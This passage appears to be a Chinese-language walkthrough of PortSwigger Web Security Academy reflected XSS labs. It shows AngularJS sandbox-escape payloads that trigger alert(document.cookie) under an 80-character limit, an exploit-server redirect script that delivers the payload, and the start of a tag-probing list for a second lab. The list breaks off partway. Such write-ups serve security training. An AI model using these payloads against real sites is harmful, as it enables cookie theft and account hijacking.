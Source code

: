 1. 注入 `{{ 1 }}`，看到結果是 `0 search results for '1'`，代表 AngularJS expression `{{}}` 可以成功注入～
2. 注入 `{{ $event.path }}`，結果是 `0 search results for ''`
3. 注入 `{{ $event.composedPath() }}`，結果是 `0 search results for ''`
4. 注入很長的字串，結果是 `"Search term cannot exceed 80 characters"`
5. 注入 `{{ [1].map(alert) }}`，看到錯誤訊息 `TypeError: undefined is not a function`
6. 注入 `{{ <div>123</div> }}`，看到 `<div>123</div>` 成功變成 DOM
7. 注入 `{{ <input ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'> }}`，可成功在 focus 執行 `alert(1)`
8. 注入 `{{<input ng-focus=$event.composedPath()|orderBy:'(y=alert)(document.cookie)'>}}`，可成功在 focus 執行 `alert`，但無法自行 focus

研究到這邊，已知知道注入方向，但無法限制在 80 字內，所以後來參考答案，不得不說真的厲害

9. 注入 `<div></div>`，看到 `<div></div>` 成功變成 DOM，代表不用 `{{}}` 也可以
10. 注入 `<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(document.cookie)'>`
11. 在 exploit-server 輸入


```html
<script>
  location.href = `https://0aa8003304121a7482df06a900fb009e.web-security-academy.net/?search=${encodeURIComponent("<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(document.cookie)'>")}#x`;
</script>
```

這題由於限制 80 字，如果用 `<input autofocus` 會超過，所以答案是用 `<input id=x`，搭配在網址的 hash 加上 `#x`，真的是很聰明的做法～

## Lab: Reflected XSS with event handlers and `href` attributes blocked

| Dimension | Description                                                                                                       |
| --------- | ----------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags                          |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked |

題目已有給提示

1. onEvent 都不能用
2. href 不能用

實測看看哪些 tag 能用

```js
const tags = `a
a2
abbr
acronym
address
applet
area
article
aside
audio
audio2
b
bdi
bdo
big
blink
blockquote
body
br
button
canvas
caption
center
```